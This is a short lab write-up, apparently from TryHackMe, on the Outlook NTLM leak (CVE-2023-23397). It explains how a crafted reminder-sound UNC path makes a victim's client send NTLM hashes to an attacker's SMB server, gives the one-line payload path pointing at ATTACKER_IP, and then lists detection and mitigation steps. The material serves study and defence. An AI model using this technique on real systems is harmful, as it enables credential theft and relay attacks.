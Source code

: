 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "CVE-2023-23397"
---
```


## Outlook NTLM Leak
Tool used: **Responder**

**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*

### Exploit
The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```

#### Script: to be added

### Mitigation & Detection

**Sigma rules** can be used to detect a connection to a WebDav or SMB share, or detects svchost.exe spawning rundll32.exe both indicates a a post-exploitation but the latter detects exfiltration phase.**Yara Rules** used for pattern identification within the files on a disk to detect the suspcisous MSG file on the disk. In response to the attack, Microsoft released a **Powershell script** that can check the exchange messaging items like Mail, Calendar, and tasks to see if the IOC is present.

**Mitigation**:
- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.
